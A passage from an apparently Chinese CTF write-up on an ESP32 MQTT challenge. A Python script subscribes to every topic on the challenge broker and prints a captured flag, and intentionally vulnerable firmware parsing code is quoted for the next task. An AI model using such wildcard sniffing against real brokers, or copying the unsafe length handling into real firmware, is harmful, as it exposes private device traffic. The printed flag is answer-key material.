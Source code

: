 ![image](https://xuanxuanblingbling.github.io/assets/pic/esp32/image-20211127175038978.png)


另外也可以使用python来订阅MQTT服务，依赖安装：

```python
➜  python3 -m pip install paho-mqtt
```

```python
import paho.mqtt.client as mqtt

def on_message(client, userdata, msg):
    print(msg.topic+" , "+str(msg.payload))

client = mqtt.Client()
client.connect("mqtt.esp32ctf.xyz",1883,60)
client.on_message = on_message
client.subscribe("#")
client.loop_forever()
```

```
➜  python3 exp.py
/topic/flag1 , b'THUCTF{#_1s_God_in_MQTT}'
/topic/flag2/tdzloj , b'www.baidu.com?46'
```


### task2 

- 题目：你能欺骗订阅者么

```c
...
while(1){
        printf("[+] MQTT task II: I send second flag to baidu\n");
        esp_mqtt_client_publish(client, topic_2, "www.baidu.com?46", 0, 1, 0);
        vTaskDelay(10000 / portTICK_RATE_MS);
}
...
void mqtt_data_hander(int length,char * data){
    ...
    char tag3[] = " [+] MQTT task III: ";
    sprintf(flagdata,"%s%s%s",mqtt_flag_2,tag3,mqtt_flag_3);

    int a = 46;

    char * p = strnstr(data,"?",length);
    if(p){
        int data_length = p - data;
        snprintf(l,length - data_length,"%s",p+1);
        a = atoi(l);
        length = data_length;
    }

    sprintf(url,"%.*s",length, data);
```
